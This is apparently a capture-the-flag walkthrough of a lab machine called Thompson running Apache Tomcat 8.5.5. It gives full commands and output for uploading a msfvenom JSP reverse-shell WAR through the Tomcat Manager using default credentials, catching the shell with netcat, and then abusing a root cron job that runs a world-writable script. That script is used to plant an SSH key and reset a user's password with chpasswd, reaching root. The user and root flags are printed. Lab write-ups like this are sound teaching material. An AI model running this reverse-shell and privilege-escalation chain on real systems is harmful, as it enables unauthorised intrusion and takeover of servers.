

# Thompson



## Initial Port Scan

We can first do a quick Rustscan to learn all the opening ports.

```bash
─$ rustscan -a thompson.thm --ulimit 5000 -- -A
...
Open xx.xx.xxx.xxx:22
Open xx.xx.xxx.xxx:8009
Open xx.xx.xxx.xxx:8080
...

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL+0hfJnh2z0jia21xVo/zOSRmzqE/qWyQv1G+8EJNXze3WPjXsC54jYeO0lp2SGq+sauzNvmWrHcrLKHtugMUQmkS9gD/p4zx4LjuG0WKYYeyLybs4WrTTmCU8PYGgmud9SwrDlEjX9AOEZgP/gj1FY+x+TfOtIT2OEE0Exvb86LhPj/AqdahABfCfxzHQ9ZyS6v4SMt/AvpJs6Dgady20CLxhYGY9yR+V4JnNl4jxwg2j64EGLx4vtCWNjwP+7ROkTmP6dzR7DxsH1h8Ko5C45HbTIjFzUmrJ1HMPZMo9ss0MsmeXPnZTmp5TxsxbLNJGSbDv7BS9gdCyTf0+Qq1
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6CiO2B7Uei2whKgUHjLmGY7dq1uZFhZ3wY5EWj5L7ylSj+bx5pwaiEgU/Velkp4ZWXM//thL6K1lAAPGLxHMM=
|   256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIwYtK4oCnQLSoBYAztlgcEsq8FLNL48LyxC2RfxC+33
8009/tcp open  ajp13   syn-ack ttl 62 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    syn-ack ttl 62 Apache Tomcat 8.5.5
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.8 - 3.16 (96%), Linux 3.10 - 3.13 (96%), Linux 3.13 (96%), Linux 4.4 (96%), Linux 5.4 (96%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 6.0 - 9.0 (Linux 3.18 - 4.4) (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```

We found 3 of them, they are:

- Port `22`: SSH
- Port `8009`: Ajp13 ([Apache Jserv Protocol](https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html))
- Port `8080`: HTTP (Apache Tomcat)

## HTTP (Port 8080)

When we arrive to port 8080, we know it is running Apache Tomcat/8.5.5


### CVE-2017-12617

Doing a quick search will know this version is vulnerable to [CVE-2017-12617](https://nvd.nist.gov/vuln/detail/cve-2017-12617)

This CVE is about arbitrary uploading a JSP file, we can then try to execute it and establish a reverse shell connection.

There is a [PoC](https://github.com/ygouzerh/CVE-2017-12617/blob/master/attack.sh) available, yet it does not work

```bash
root@ip-xx-xx-xx-xx:~# touch web_shell.jsp
root@ip-xx-xx-xx-xx:~# curl -X PUT http://thompson.thm:8080/web_shell.jsp/ -d @- < ./web_shell.jsp
<!DOCTYPE html><html><head><title>Apache Tomcat/8.5.5 - Error report</title><style type="text/css">H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}.line {height: 1px; background-color: #525D76; border: none;}</style> </head><body><h1>HTTP Status 403 - </h1><div class="line"></div><p><b>type</b> Status report</p><p><b>message</b> <u></u></p><p><b>description</b> <u>Access to the specified resource has been forbidden.</u></p><hr class="line"><h3>Apache Tomcat/8.5.5</h3></body></html>
```

Using Searchsploit, I found another script we can try `42966.py`

```bash
└─$ searchsploit tomcat 8.5.5                                                                                                                                                                                                               
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                                                                              | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                                                                              | jsp/webapps/42966.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

But it also failed, meaning that CVE-2017-12617 might not be the intended way

```bash
└─$ ./42966.py -u http://thompson.thm:8080                                                                                                                                                                                                                                           
                                                                                                                                                                                                                                            
   _______      ________    ___   ___  __ ______     __ ___   __ __ ______                                                                                                                                                                  
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |                                                                                                                                                                 
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / /                                                                                                                                                                  
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /                                                                                                                                                                   
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /                                                                                                                                                                    
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/                                                                                                                                                                     
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     
                                                                                                                                                                                                                                            
[@intx0x80]                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
Poc Filename  Poc.jsp
Not Vulnerable to CVE-2017-12617 
```

<aside>
💡

I later found out that the reason it failed is because of CSRF protection

```bash
root@ip-xx-xx-xx-xx:~# curl -u tomcat:s3cret -X PUT http://thompson.thm:8080/manager/html/web_shell.jsp/ -d @- < ./web_shell.jsp
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
 <head>
  <title>403 Access Denied</title>
  <style type="text/css">
    <!--
    BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;font-size:12px;}
    H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;}
    PRE, TT {border: 1px dotted #525D76}
    A {color : black;}A.name {color : black;}
    -->
  </style>
 </head>
 <body>
   <h1>403 Access Denied</h1>
   <p>
    You are not authorized to view this page.
   </p>
   <p>
    By default the Manager is only accessible from a browser running on the
    same machine as Tomcat. If you wish to modify this restriction, you'll need
    to edit the Manager's <tt>context.xml</tt> file.
   </p>
   <p>
    If you have already configured the Manager application to allow access and
    you have used your browsers back button, used a saved book-mark or similar
    then you may have triggered the cross-site request forgery (CSRF) protection
    that has been enabled for the HTML interface of the Manager application. You
    will need to reset this protection by returning to the
    <a href="/manager/html">main Manager page</a>. Once you
    return to this page, you will be able to continue using the Manager
    appliction's HTML interface normally. If you continue to see this access
    denied message, check that you have the necessary permissions to access this
    application.
...
```

</aside>

### Tomcat Host Manager Login

When I clicked Host Manager to see if I can see anything interesting, a http authentication window pops up.

I click ‘cancel’ because I have no idea what the password is


And then I was redirected to the 401 page, where I saw a pair of credentials (`tomcat:s3cret`) I can try.


Entering it, and I enter the host manager, and there seems to be nothing worth my time exploring.


### Tomcat Manager App

When we go back to the main page and click ‘Manager App’, we will see the following path table


I though `/hgkFDt6wiHIUB29WWEON5PA` should hide something, but it is just a rabbit hole.

I then scrolled down and saw there is place for WAR files upload


Maybe we can try to upload a reverse shell payload? With that in mind, I search for JSP and found `java/jsp_shell_reverse_tcp`

```bash
root@ip-xx-xx-xx-xx:~# msfvenom -l payload|grep jsp

    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell

```

Then we can craft our payload and set the format to be WAR

```bash
root@ip-xx-xx-xx-xx:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=xx.xx.xx.xx LPORT=1234 -f war > r_shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes

```

When we upload the payload, we should see the ‘OK’ response from Tomcat


And scroll down, we can see there is an endpoint `/r_shell`


## Reverse Shell Connection

Set up the Netcat listener and access to `/r_shell`, and we should be able to connect to the target machine

```bash
root@ip-xx-xx-xx-xx:~# nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on xx.xx.xxx.xx 45266
python -c 'import pty; pty.spawn("/bin/bash")'
tomcat@ubuntu:/$ whoami
tomcat
tomcat@ubuntu:/$ pwd
/
tomcat@ubuntu:/$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ubuntu:/$ ls /home             
jack
tomcat@ubuntu:/$ ls /home/jack
id.sh  test.txt  user.txt
```

Now we can read the user flag!

```bash
tomcat@ubuntu:/$ cat /home/jack/user.txt
39400c90bc683a41a8935e4719f181bf
```

User flag: `39400c90bc683a41a8935e4719f181bf`

## Lateral Movement with SSH (Port 22)

During finding the user flag, I found that there is a weird `id.sh` bash script

```bash
tomcat@ubuntu:/home/jack$ ls -la id.sh
ls -la id.sh
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh

tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt

```

We see that the script runs the `id` command and record the result in `test.txt`, which is using root to execute the script.

```bash
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

Additionally, I take a look to see if there is any utilities having the SUID set, but it seems that we can’t use them to escalate our privileges.

```bash
tomcat@ubuntu:/$ find / -type f -perm -04000 2> /dev/null
find / -type f -perm -04000 2> /dev/null
/bin/su
/bin/ping6
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
/usr/bin/passwd
```

Checking the crontab, we confirmed our observation, in every minute, the `root` will go the `/home/jack` directory and execute to the script

```bash
tomcat@ubuntu:/home/jack$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
```

To test if we can really exploit the script, I decided to generate an SSH key pair to SSH as jack

```bash
root@ip-xx-xx-xx-xx:~# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
...
root@ip-xx-xx-xx-xx:~# cat /root/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDuRuTVJrjQ0LM+EXjZI4rwiGhyiwQQzdBR3AIGzCOCpQFWEn9cHW4W8ihSm9cfw6yzh2jpXYoqj4HB2vpxHmuTYvfNRgnRGNmmJlAKKgQMLM0Sb92bio2Q/9CGBnYX/hzBcpCbCmY0GBKFRJbx3tnEmuUUAqxFNE3noNMsLMQwQNjhEtaJEgxo9Bk6ymswVSxnLUz+wiS8hXUy5qAvRFt3b+jrA31fhN6q6cUo5c9NW9Wm6YeSZEhLB8pVUXCI1XLsQ8rdmMqZnjiNUJ9JKUWdJGwcLwgoGAoCmlnncMWCu93yZvYMC5zWZCitqz69z5uTqb5tpi5YpAMeEFmpawlUbGHRzuLAFwTMUDcAEe/TaXnvnWfWoJYHdzHlpb4YObrUuIbwmSkkSM1s+kFnWX/+p/puGYu7i72EnhliJqXKiO48uiqBoOfBcLZ6tWN/doqah9EzyI338UJ1QdZXDkzdl5ASMbr5LSDIrsX9JKIgmXZTMKm9oVP8b+/eAARemhM= root@ip-xx-xx-xx-xx
```

Then, to be able to SSH, we need to:

1. Create `.ssh` as it is not found
2. Write our public key to `.ssh/authorized_keys`

The steps are as follows, ensure the bash script is indeed correct

```bash
tomcat@ubuntu:/home/jack$ echo '#!/bin/bash' > id.sh
echo '#!/bin/bash' > id.sh
tomcat@ubuntu:/home/jack$ echo 'mkdir .ssh' >> id.sh
echo 'mkdir .ssh' >> id.sh
tomcat@ubuntu:/home/jack$ echo "echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDuRuTVJrjQ0LM+EXjZI4rwiGhyiwQQzdBR3AIGzCOCpQFWEn9cHW4W8ihSm9cfw6yzh2jpXYoqj4HB2vpxHmuTYvfNRgnRGNmmJlAKKgQMLM0Sb92bio2Q/9CGBnYX/hzBcpCbCmY0GBKFRJbx3tnEmuUUAqxFNE3noNMsLMQwQNjhEtaJEgxo9Bk6ymswVSxnLUz+wiS8hXUy5qAvRFt3b+jrA31fhN6q6cUo5c9NW9Wm6YeSZEhLB8pVUXCI1XLsQ8rdmMqZnjiNUJ9JKUWdJGwcLwgoGAoCmlnncMWCu93yZvYMC5zWZCitqz69z5uTqb5tpi5YpAMeEFmpawlUbGHRzuLAFwTMUDcAEe/TaXnvnWfWoJYHdzHlpb4YObrUuIbwmSkkSM1s+kFnWX/+p/puGYu7i72EnhliJqXKiO48uiqBoOfBcLZ6tWN/doqah9EzyI338UJ1QdZXDkzdl5ASMbr5LSDIrsX9JKIgmXZTMKm9oVP8b+/eAARemhM= root@ip-xx-xx-xx-xx3' > .ssh/authorized_keys" >> id.sh
id.shgmXZTMKm9oVP8b+/eAARemhM= root@ip-xx-xx-xx-xx3' > .ssh/authorized_keys" >>  
tomcat@ubuntu:/home/jack$ ls
ls
id.sh  test.txt  user.txt
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
mkdir .ssh
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDuRuTVJrjQ0LM+EXjZI4rwiGhyiwQQzdBR3AIGzCOCpQFWEn9cHW4W8ihSm9cfw6yzh2jpXYoqj4HB2vpxHmuTYvfNRgnRGNmmJlAKKgQMLM0Sb92bio2Q/9CGBnYX/hzBcpCbCmY0GBKFRJbx3tnEmuUUAqxFNE3noNMsLMQwQNjhEtaJEgxo9Bk6ymswVSxnLUz+wiS8hXUy5qAvRFt3b+jrA31fhN6q6cUo5c9NW9Wm6YeSZEhLB8pVUXCI1XLsQ8rdmMqZnjiNUJ9JKUWdJGwcLwgoGAoCmlnncMWCu93yZvYMC5zWZCitqz69z5uTqb5tpi5YpAMeEFmpawlUbGHRzuLAFwTMUDcAEe/TaXnvnWfWoJYHdzHlpb4YObrUuIbwmSkkSM1s+kFnWX/+p/puGYu7i72EnhliJqXKiO48uiqBoOfBcLZ6tWN/doqah9EzyI338UJ1QdZXDkzdl5ASMbr5LSDIrsX9JKIgmXZTMKm9oVP8b+/eAARemhM= root@ip-xx-xx-xx-xx3' > .ssh/authorized_keys
```

After waiting a minute, we should see there is a `.ssh` directory, and inside it, we can see our public key

```bash
tomcat@ubuntu:/home/jack$ ls .ssh       
ls .ssh
authorized_keys
tomcat@ubuntu:/home/jack$ cat .ssh/authorized_keys
cat .ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDuRuTVJrjQ0LM+EXjZI4rwiGhyiwQQzdBR3AIGzCOCpQFWEn9cHW4W8ihSm9cfw6yzh2jpXYoqj4HB2vpxHmuTYvfNRgnRGNmmJlAKKgQMLM0Sb92bio2Q/9CGBnYX/hzBcpCbCmY0GBKFRJbx3tnEmuUUAqxFNE3noNMsLMQwQNjhEtaJEgxo9Bk6ymswVSxnLUz+wiS8hXUy5qAvRFt3b+jrA31fhN6q6cUo5c9NW9Wm6YeSZEhLB8pVUXCI1XLsQ8rdmMqZnjiNUJ9JKUWdJGwcLwgoGAoCmlnncMWCu93yZvYMC5zWZCitqz69z5uTqb5tpi5YpAMeEFmpawlUbGHRzuLAFwTMUDcAEe/TaXnvnWfWoJYHdzHlpb4YObrUuIbwmSkkSM1s+kFnWX/+p/puGYu7i72EnhliJqXKiO48uiqBoOfBcLZ6tWN/doqah9EzyI338UJ1QdZXDkzdl5ASMbr5LSDIrsX9JKIgmXZTMKm9oVP8b+/eAARemhM= root@ip-xx-xx-xx-xx3
```

Now we can SSH as jack, and we see jack is in the `sudo` group

```bash
root@ip-xx-xx-xx-xx:~# ssh jack@thompson.thm
...
jack@ubuntu:~$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

## Privilege Escalation

However, there is still an issue, we do not know the password of jack

```bash
jack@ubuntu:~$ sudo su
[sudo] password for jack: 
```

To fix this, we need to change the password of jack using the same method

This time, we change the script as follows (We can now use other editor such as `nano` to edit)

```bash
#!/bin/bash
echo 'jack:jack' | chpasswd
```

After another wait, we can use sudo using the password `jack`

```python
jack@ubuntu:~$ nano id.sh
jack@ubuntu:~$ sudo su
[sudo] password for jack: 
root@ubuntu:/home/jack# 
```

With that, we can go to `/root` and get the root flag!

```python
jack@ubuntu:~$ nano id.sh
jack@ubuntu:~$ sudo su
[sudo] password for jack: 
root@ubuntu:/home/jack# cd /root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
d89d5391984c0450a95497153ae7ca3a
```

Root Flag: `d89d5391984c0450a95497153ae7ca3a`
